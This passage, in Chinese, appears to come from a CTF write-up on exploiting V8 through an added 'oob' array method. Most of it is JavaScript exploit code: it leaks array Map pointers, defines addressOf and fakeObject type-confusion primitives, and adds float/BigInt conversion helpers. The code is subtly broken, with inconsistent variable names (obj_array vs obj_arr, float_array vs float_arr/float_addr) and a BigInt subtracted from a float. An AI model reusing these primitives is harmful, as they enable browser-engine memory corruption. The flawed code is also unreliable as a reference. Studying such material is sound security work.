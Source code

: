 首先定义两个全局的Float数组和对象数组，利用oob函数泄露两个数组的Map类型:
```js
var obj = {"a": 1};
var obj_array = [obj];
var float_array = [1.1];
​
var obj_array_map = obj_array.oob();
var float_array_map = float_array.oob();
```

下面实现两个函数

`addressOf`泄露给定对象的地址，其中f2i是float2int，1n表示BigNumber

```js
function addressOf(obj)
{
    obj_arr[0] = obj;
    obj_arr.oob(float_array_map);//convert to float_arr
    let obj_addr =  f2i(obj_arr[0]-1n);
    obj_arr.oob(obj_array_map);
    return obj_addr;
}
function fakeObject(addr_to_fake)
{
    float_arr[0] = i2f(addr_to_fake+1n);
    float_arr.oob(obj_array_map);
    let fake_obj = float_addr[0];
    float_addr.oob(float_array_map);
    return fake_obj;
}
```

编写辅助函数

```js
var buf =new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var bigUint64 = new BigUint64Array(buf);
// 浮点数转换为64位无符号整数
function f2i(f)
{
    float64[0] = f;
    return bigUint64[0];
}
// 64位无符号整数转为浮点数
function i2f(i)
{
    bigUint64[0] = i;
    return float64[0];
}
// 64位无符号整数转为16进制字节串
function hex(i)
{
    return i.toString(16).padStart(16, "0");
}
```
